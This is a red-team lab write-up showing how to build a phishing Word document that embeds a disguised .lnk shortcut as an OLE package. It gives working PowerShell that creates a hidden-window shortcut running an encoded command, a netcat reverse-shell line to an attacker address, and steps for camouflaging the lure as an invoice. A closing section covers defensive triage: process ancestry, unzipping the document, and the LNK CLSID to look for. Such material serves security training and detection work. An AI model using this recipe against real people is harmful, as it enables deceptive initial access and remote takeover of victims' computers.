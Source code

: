 ```yaml
---
description: 'Phishing, Initial Access using embedded OLE + LNK objects'
---
```


# Phishing: OLE + LNK

This lab explores a popular phishing technique where attackers embed .lnk files into the Office documents and camouflage them with Ms Word office icons in order to deceive victims to click and run them. 

## Weaponization

Creating an .LNK file that will trigger the payload once executed:

{% code title="attacker@local" %}
```csharp
$command = 'Start-Process c:\shell.cmd'
$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)
$encodedCommand = [Convert]::ToBase64String($bytes)

$obj = New-object -comobject wscript.shell
$link = $obj.createshortcut("c:\experiments\ole+lnk\Invoice-FinTech-0900541.lnk")
$link.windowstyle = "7"
$link.targetpath = "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe"
$link.iconlocation = "C:\Program Files\Windows NT\Accessories\wordpad.exe"
$link.arguments = "-Nop -sta -noni -w hidden -encodedCommand UwB0AGEAcgB0AC0AUAByAG8AYwBlAHMAcwAgAGMAOgBcAHMAaABlAGwAbAAuAGMAbQBkAA=="
$link.save()
```
{% endcode %}

Powershell payload will trigger a rudimentary NC reverse shell:

{% code title="c:\\shell.cmd" %}
```csharp
C:\tools\nc.exe 10.0.0.5 443 -e cmd.exe
```
{% endcode %}

Once the above powershell script is executed, an `.LNK` shortcut is created:

![](../../../.gitbook/assets/ole-lnk-shortcut-created.png)

Let's create a Word document that will contain the malicious shortcut that was created in the previous step:

![](../../../.gitbook/assets/ole-good-document.png)

Let's insert a new object into the document by selecting a `Package`and changing its icon source to a Microsoft Word executable:

![](../../../.gitbook/assets/ole-insert-ole-object-with-icon.png)

![](../../../.gitbook/assets/ole-change-icon.png)

Point the package to the .lnk file containing the payload:

![](../../../.gitbook/assets/ole-payload.png)

Final result:

![](../../../.gitbook/assets/ole-weaponized.png)

## Execution

Victim executing the embedded document. Gets presented with a popup to confirm execution:

![](../../../.gitbook/assets/ole-execution.png)

Once the victim confirms they want to open the file - the reverse shell comes back to the attacker:

![](../../../.gitbook/assets/ole-execution2.png)

{% file src="../../../.gitbook/assets/ole.ps1" caption="OLE+LNK Powershell Script" %}

{% file src="../../../.gitbook/assets/invoice-fintech-0900541.lnk" caption="Invoice-FinTech-0900541.lnk" %}

{% file src="../../../.gitbook/assets/completely-not-a-scam-ole+lnk.docx" caption="Phishing: OLE+Lnk MS Word Doc Package" %}

## Observations

After the payload is triggered, the process ancestry looks as expected - powershell gets spawned by winword, cmd is spawned by powershell..:

![](../../../.gitbook/assets/ole-ancestry1.png)

Soon after, the powershell gets killed and cmd.exe becomes an orphaned process:

![](../../../.gitbook/assets/ole-ancestry2.png)

Like in [T1137: Phishing - Office Macros](t1137-office-vba-macros.md), you can use rudimentary tools on your Windows workstation to quickly triage the suspicious Office document. First off, rename the file to a .zip extension and unzip it. Then you can navigate to `word\embeddings` and find `oleObject.bin` file that contains the malicious `.lnk`:

![](../../../.gitbook/assets/ole-embedded-bin.png)

Then you can do a simple `strings` or hexdump against the file and you should immediately see signs of something that should raise your eyebrow\(s\):

```csharp
hexdump.exe -C .\oleObject1.bin
```

![](../../../.gitbook/assets/ole-hexdump.png)

As an analyst, one should look for `CLSID 00021401-0000-0000-c000-000000000046` in the .bin file, which signifies that the .doc contains an embnedded .lnk file. In our case this can be observed here:

![](../../../.gitbook/assets/lnk-clsid.png)

## References

{% embed url="https://msdn.microsoft.com/en-gb/library/dd891343.aspx" %}

{% embed url="https://adsecurity.org/wp-content/uploads/2016/09/DerbyCon6-2016-AttackingEvilCorp-Anatomy-of-a-Corporate-Hack-Presented.pdf" %}

